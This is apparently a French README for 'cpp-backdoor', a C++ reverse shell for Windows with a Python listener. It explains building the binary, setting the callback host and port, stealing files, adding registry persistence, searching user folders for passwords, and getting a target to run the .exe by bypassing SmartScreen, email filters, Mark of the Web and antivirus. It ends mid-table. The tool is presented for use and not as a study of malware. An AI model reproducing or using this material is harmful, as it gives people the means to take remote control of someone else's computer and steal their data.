

# Alexander
# cpp-backdoor

Un **reverse shell** minimaliste en C++ pour Windows. Un seul fichier source, aucune dépendance externe, un `.exe` autonome qui tient dans une poignée de main.

> Contrairement à un simple `bind shell`, le client initie la connexion : il traverse donc le NAT et le pare-feu sans configuration entrante.


---

## Sommaire

- [Fonctionnalités](#fonctionnalités)
- [Comment ça marche](#comment-ça-marche)
- [Prérequis](#prérequis)
- [Compilation](#compilation)
- [Utilisation](#utilisation)
- [Commandes disponibles](#commandes-disponibles)
- [Transfert de fichiers](#transfert-de-fichiers)
- [Déploiement sur une autre machine](#déploiement-sur-une-autre-machine)
- [Lancer depuis VS Code](#lancer-depuis-vs-code)
- [Limites connues](#limites-connues)
- [Dépannage](#dépannage)
- [Structure du projet](#structure-du-projet)
- [Licence](#licence)

---

## Fonctionnalités

- Shell distant complet (exécution de commandes `cmd.exe`)
- Reconnexion automatique toutes les 2 secondes
- Téléchargement et envoi de fichiers binaires (images, PDF, archives…)
- Binaire **statique** : aucune DLL requise sur la machine cible
- Persistance optionnelle via la clé de registre `HKCU\...\Run`
- Écouteur Python fourni, avec sauvegarde automatique des fichiers reçus
- ~200 lignes de C++, lisible d'un bout à l'autre

## Comment ça marche



Le client (`backdoor.exe`) tourne sur la cible et se connecte à l'écouteur. Chaque commande est passée à `_popen`, et la sortie est renvoyée sur le socket.

## Prérequis

**Pour compiler :**
- [MinGW-w64](https://winlibs.com/) (build UCRT, x86_64) — ajouter `bin/` au `PATH`
- ou Visual Studio Build Tools (MSVC)

**Pour écouter :**
- [Nmap/ncat](https://nmap.org/download.html), ou `nc`, ou **Python 3** pour l'écouteur fourni

## Compilation

**MinGW-w64 :**

```bash
g++ main.cpp -o backdoor.exe -lws2_32 -static -O2 -m64
```

**MSVC :**

```bash
cl /EHsc /O2 main.cpp /link ws2_32.lib
```

> ⚠️ Le flag `-static` est **indispensable** si tu veux déplacer le `.exe` sur un autre PC. Sans lui, le binaire réclame `libstdc++-6.dll`, `libgcc_s_seh-1.dll` et `libwinpthread-1.dll`.
>
> Vérification : un binaire statique pèse **1 à 2 Mo**. S'il fait 50 Ko, `-static` a été oublié.

## Utilisation

1. **Configure l'IP** de la machine qui écoute dans `main.cpp` :

   ```cpp
   #define HOST "192.168.1.50"   // IP locale de l'écouteur (voir: ipconfig)
   #define PORT 4444
   ```

2. **Compile**, puis lance l'écouteur.

   Avec `ncat` (dépannage rapide uniquement) :

   ```bash
   ncat -lvp 4444
   ```

   Avec l'écouteur Python (recommandé, gère le transfert de fichiers) :

   ```bash
   python listener.py
   ```

3. **Lance `backdoor.exe`** sur la machine cible (double-clic).

4. Tu obtiens une invite :

   ```
   [+] ecoute sur 4444 ...
   [+] connecte depuis 192.168.1.42:51022
   backdoor> whoami
   desktop-abc\user
   backdoor> _
   ```

## Commandes disponibles

Tout ce que `cmd.exe` sait faire sans interaction est disponible. Quelques incontournables :

| Catégorie | Commandes |
|---|---|
| Identité | `whoami`, `hostname`, `systeminfo`, `ver` |
| Réseau | `ipconfig /all`, `netstat -ano`, `arp -a`, `route print` |
| Utilisateurs | `net user`, `net localgroup administrators`, `query user` |
| Processus | `tasklist`, `tasklist /svc`, `taskkill /IM x.exe /F` |
| Fichiers | `dir`, `type`, `tree`, `findstr /s /i password C:\Users\*` |
| Actions | `mkdir`, `copy`, `del`, `shutdown /r /t 0`, `start` |
| Spéciales | `download <chemin>`, `upload <chemin>`, `exit` |

## Transfert de fichiers

```bash
backdoor> dir C:\Users\TonUser\Downloads
backdoor> download C:\Users\TonUser\Downloads\photo.jpg
[+] recu -> recu/photo.jpg (248731 octets)

backdoor> upload rapport.txt
[+] envoye -> rapport.txt (512 octets)
```

**Protocole :** la commande `download` envoie d'abord une ligne ASCII `FILE <taille>\n`, puis le contenu binaire brut. Le fichier arrive dans `recu/`, à côté de `listener.py`.

> `type` ne suffit pas pour un binaire : la sortie est tronquée au premier octet `0x1A` et les fins de ligne sont converties. D'où le besoin d'un transfert dédié.

## Déploiement sur une autre machine

| Point | À vérifier |
|---|---|
| `HOST` | IP **réelle** de l'écouteur — pas `127.0.0.1` |
| Compilation | `-static -m64` |
| Taille du binaire | > 1 Mo |
| Écouteur | lancé et joignable |
| Pare-feu écouteur | port 4444 ouvert en entrant |

**Réseau local** — utilise l'IP locale (`ipconfig`), rien d'autre à faire.

**Depuis Internet** — utilise ton IP publique et configure une redirection de port sur ta box : port externe `4444` → `192.168.1.50:4444`.

**Frictions Windows côté cible :**
- *SmartScreen* → « Informations complémentaires » → « Exécuter quand même »
- *Email* → Gmail bloque souvent les `.exe`, mets-le dans un `.zip`
- *Mark of the Web* → clic droit → Propriétés → cocher « Débloquer »
- *Antivirus* → certains AV n'aiment pas un exe qui ouvre un socket ; ajoute une exclusion

## Lancer depuis VS Code

1. Ouvre le dossier : `code .`
2. Terminal intégré (`Ctrl+` `` ` ``), puis compile :

   ```bash
   g++ main.cpp -o backdoor.exe -lws2_32 -static -O2
   ```

3. Ouvre un **second terminal** (icône split) pour l'écouteur, et lance le `.exe` dans le premier.

Pour automatiser la compilation, crée `.vscode/tasks.json` :

```json
{
  "version": "2.0.0",
  "tasks": [
    {
      "label": "build",
      "type": "shell",
      "command": "g++",
      "args": ["-g", "main.cpp", "-o", "backdoor.exe", "-lws2_32", "-static", "-O2"],
      "group": { "kind": "build", "isDefault": true },
      "problemMatcher": ["$gcc"]
    }
  ]
}
```

`Ctrl+Shift+B` compile ensuite.

## Limites connues

- **Pas de `cd` persistant** — le répertoire courant est réinitialisé à chaque commande. Utilise des chemins absolus ou `cd /d C:\path && dir`.
- **Pas de programme interactif** — `notepad`, `vim`, `python` sans argument bloquent `_popen` jusqu'à leur fermeture.
- **Un seul client** à la fois côté écouteur.
- **Pas de chiffrement** — le flux circule en clair sur le réseau.
- **Windows uniquement** — repose sur Winsock et `_popen`.

## Dépannage

| Symptôme | Cause probable |
|---|---|
| `DLL introuvable` sur la cible | `-static` oublié à la compilation |
| Rien ne se passe, boucle infinie | `HOST` laissé à `127.0.0.1` |
| Connexion refusée en local | écouteur non lancé,
